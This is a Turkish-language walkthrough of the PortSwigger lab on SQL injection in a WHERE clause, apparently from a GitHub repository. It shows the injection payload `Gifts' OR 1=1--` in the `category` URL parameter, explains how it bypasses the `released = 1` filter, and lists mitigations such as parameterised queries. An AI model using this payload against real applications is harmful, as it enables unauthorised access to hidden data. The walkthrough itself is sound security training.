


# SQL Injection — WHERE Clause Üzerinden Gizli Veri Elde Etme

**Lab:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
**Seviye:** Apprentice
**Kategori:** SQL Injection
**Araçlar:** Tarayıcı (yalnızca URL üzerinden), Burp Suite (isteğe bağlı)
**Lab linki:** https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

---

## Zafiyetin Özeti

Uygulamadaki ürün kategorisi filtresi, kullanıcıdan gelen `category` parametresini doğrudan SQL sorgusuna ekliyor. Bir kategori seçildiğinde arka planda şuna benzer bir sorgu çalışıyor:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Burada iki önemli nokta var:

- `category` değeri tırnak içinde, kullanıcı girdisiyle birleştirilerek sorguya ekleniyor. Yani girdiye tırnak enjekte edip sorgunun mantığını değiştirebiliyoruz.
- `released = 1` koşulu yalnızca yayınlanmış (satışta olan) ürünleri getiriyor. Yayınlanmamış ürünler normalde listelenmiyor.

Amaç: enjeksiyon ile `released = 1` koşulunu etkisiz hale getirip yayınlanmamış ürünleri de listeletmek.

## Lab Açıklaması



## Çözüm Adımları

Bu lab'i tamamen tarayıcı üzerinden, yalnızca URL'deki `category` parametresini değiştirerek çözdük. Ekstra bir araç gerekmedi.

### 1. Normal isteğin yapısını anlamak

Kategori filtresine tıklandığında URL şu şekilde oluşuyor:

```
/filter?category=Gifts
```

Bu da arka planda şu sorguya karşılık geliyor:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### 2. Payload'ı oluşturmak

`category` parametresine aşağıdaki değeri enjekte ediyoruz:

```
Gifts' OR 1=1--
```

URL'de boşluklar `+` ile kodlandığından, adres çubuğuna girdiğimiz hali:

```
/filter?category=Gifts'+OR+1=1--
```

Payload'ın parçalanmış hali:

- `Gifts'` → Açık olan tırnağı kapatıp orijinal string literalini sonlandırır.
- `OR 1=1` → Her zaman doğru olan bir koşul ekler. `OR` kullanıldığı için, `released` değeri ne olursa olsun her satır koşulu sağlar.
- `--` → SQL'de yorum işaretidir. Kendisinden sonra gelen her şeyi (yani `AND released = 1` kısmını) devre dışı bırakır.

Enjeksiyondan sonra sorgu şuna dönüşür:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Yorum satırı sayesinde çalışan asıl sorgu şudur:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

`1=1` her zaman doğru olduğu için `WHERE` koşulu tüm ürünler için sağlanır. Böylece yayınlanmış ve yayınlanmamış tüm ürünler listelenir.

### 3. Payload'ı URL üzerinden göndermek

Hazırladığımız payload'ı adres çubuğuna yazıp isteği gönderiyoruz:


### 4. Sonuç

İstek gönderildiğinde uygulama tüm ürünleri (yayınlanmamış olanlar dahil) döndürüyor ve lab çözülmüş olarak işaretleniyor.



## Neden Çalışıyor?

Temel sorun, kullanıcı girdisinin SQL sorgusuna doğrudan string birleştirmeyle eklenmesi (string concatenation). Uygulama girdiyi veri olarak değil, sorgunun bir parçası olarak yorumluyor. Bu yüzden tırnak ve SQL anahtar kelimeleri enjekte ederek sorgunun mantığını değiştirebiliyoruz.

## Önlem

- **Parametreli sorgular (prepared statements):** Kullanıcı girdisi sorgu metnine birleştirilmek yerine parametre olarak bağlanmalı. Bu sayede girdi her zaman veri olarak işlenir, hiçbir zaman SQL kodu olarak çalışmaz.
- **Girdi doğrulama (allow-list):** `category` gibi parametreler biliniyorsa, yalnızca izin verilen değerlere karşı doğrulama yapılabilir.
- **En az yetki prensibi:** Uygulamanın veritabanı kullanıcısı yalnızca ihtiyaç duyduğu yetkilere sahip olmalı.

> Not: Girdiyi "temizlemeye" (örn. tırnakları kaçırmaya) çalışmak tek başına güvenilir bir çözüm değildir; asıl çözüm parametreli sorgulardır.
